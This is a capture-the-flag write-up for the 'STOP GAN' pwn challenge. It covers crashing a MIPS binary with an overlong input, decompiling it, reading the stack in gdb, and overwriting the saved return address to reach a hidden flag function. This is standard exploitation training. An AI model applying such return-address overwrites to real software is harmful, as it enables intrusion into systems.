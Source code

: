 # Description
## STOP GAN
Label: pwn

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

# Solution
This attachment is a zip file containing a `bof` binary and a `console.c` source file. The description for the task also includes the text `buffer-overflow.ctfcompetition.com 1337`. Looking at the source file, we see that the binary `bof` is run using qemu and then we have to send input into that program and cause it to crash. There is also a bonus flag if we can cause a controlled crash. To test locally I just ran `qemu-mipsel bof` which runs the program and shows the prompt `Cauliflower systems never crash >>`. Entering text into the prompt just closes it. Since the goal was to use a buffer overflow I decided to just input a lot of text into the program and with a long enough input, a segfault is created. Now all we have to do is try in on the actual program. So we connect to the server provided in the task `nc buffer-overflow.ctfcompetition.com 1337`, enter `run` then enter our long string of input. After a successful crash, it prints out the flag `CTF{Why_does_cauliflower_threaten_us}`

Since there is another flag, I decided to take a look at decompiling the `bof` binary. For this I used `ghidra`. Since I don't have much experience with this, it was quite difficult to figure out everything, but after playing around with it for a while this was what I figured out. This is what I figured out about what the program looks like
```c
int main(void)
{
  sighandler_t prevHandler;
  int returnVal;
  byte buffer[260];

  prevHandler = signal(SIGSEGV, segfault_handler);
  if (prevHandler == -1) {
    printf("An error occurred setting a signal handler.");
    returnVal = -1;
  } else {
    puts("Cauliflower systems never crash >>");
    scanf("%s", &buffer);
    returnVal = 0;
  }
  return returnVal;
}

void segfault_handler(void)
{
  printf("segfault detected! ***CRASH***");
  print_file("flag");
  exit(0);
}

void print_file(char *filename)
{
  int fileDescriptor;
  char buffer[4];
  int bytesRead;

  fileDescriptor = open(filename, O_RDONLY);
  if (fileDescriptor == -1) {
    puts("could not open flag");
    exit(1);
  }
  while ((bytesRead = read(fileDescriptor, &buffer, 1)) == 1) {
    write(STDOUT_FILENO, &buffer, 1);
  }
  close(fileDescriptor);
  return;
}
```

You can see that it does a `scanf` into a buffer of size 260. Therefore if we input something that is greater that `260 + 4 (frame pointer)` bytes, we should get a segfault because then we overwrite the return address. The `segfault-payload` file contains the data for causing a segfault.

```
Stack
+---------------------------+ High
|Previous frame             |
|                           |
+---------------------------+
|Return address             |
+---------------------------+
|Buffer                     |
|                           |
|                           |
|                           |
|                           |
+---------------------------+
|return value               |
+---------------------------+
|signal_handler             |
+---------------------------+ Low
```

Notice that there is no sign of the hidden flag in there. That was because ghidra removed an unreachable block. If we look at the assembly instead we can see the hidden block.
```mips
004009bc 60 1f 11 04     bal        scanf                                            ;call scanf()
004009c0 00 00 00 00     _nop                                                        ;branch delay slot
004009c4 10 00 dc 8f     lw         gp,0x10(s8)                                      ;??
004009c8 18 00 c2 8f     lw         returnVal,0x18(s8)                               ;load word into returnVal
004009cc 07 00 40 14     bne        returnVal,zero,setNormalReturnValue              ;this jump skips over the get hidden flag section
004009d0 00 00 00 00     _nop
                        getHiddenFlag
004009d4 30 80 82 8f     lw         returnVal,-0x7fd0(gp)
004009d8 40 08 42 24     addiu      returnVal,returnVal,0x840
004009dc 25 c8 40 00     or         t9,returnVal,zero
004009e0 97 ff 11 04     bal        local_flag                                       ;local_flag()
004009e4 00 00 00 00     _nop                                                        ;branch delay slot
004009e8 10 00 dc 8f     lw         gp,0x10(s8)
                        setNormalReturnValue
004009ec 25 10 00 00     or         returnVal,zero,zero
                        exit
004009f0 25 e8 c0 03     or         sp,s8,zero
004009f4 24 01 bf 8f     lw         ra,0x124(sp)
004009f8 20 01 be 8f     lw         s8,0x120(sp)
004009fc 28 01 bd 27     addiu      sp,sp,0x128
00400a00 08 00 e0 03     jr         ra
00400a04 00 00 00 00     _nop
```

And this is the print local function
```c
void local_flag(void)
{
  print_file("flag1");
  exit(0);
}
```

To get a better picture of what is happening, I used qemu with the gdb debugger to step examine the stack frame.
```
> qemu-mipsel-static -g 5555 bof
> gdb-multiarch
> (gdb) target remote localhost:5555
```

We can then set a breakpoint after `scanf`
> (gdb) b *0x004009c4

Then print out information. Here was the information from the gdb session
```
(gdb) i frame                                                             
Stack level 0, frame at 0x7fffd8f0:                                       
 pc = 0x4009c4 in main; saved pc = 0x400840                               
 Arglist at 0x7fffd8f0, args:                                             
 Locals at 0x7fffd8f0, Previous frame's sp is 0x7fffd8f0                  
 Saved registers:                                                         
  gp at 0x7fffd7d8, s8 at 0x7fffd8e8, ra at 0x7fffd8ec, pc at 0x7fffd8ec  
(gdb) x/100xw $sp                                                         
0x7fffd7c8:     0x00000060      0x7fffd7e4      0x00000001      0x00000000
0x7fffd7d8:     0x004a8970      0x00000000      0x00000001      0xaaaaaaaa
0x7fffd7e8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd7f8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd808:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd818:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd828:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd838:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd848:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd858:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd868:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd878:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd888:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd898:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8a8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8b8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8c8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8d8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8e8:     0xaaaaaaaa      0x00400840 <-- return address
```

From here I tried overwriting the return address to point to the `read_local` function. Writing to the start of the function `0x00400840` successfuly jumped to the function but when it entered the `print_file` subroutine it crashed. Still not sure about why this happens. Instead, I skipped over some of the setup in the function and jumped to the address `0x00400860` which is where the stack is being setup for the call into `print_file`. This worked as the flag `CTF{controlled_crash_causes_conditional_correspondence}` was printed out.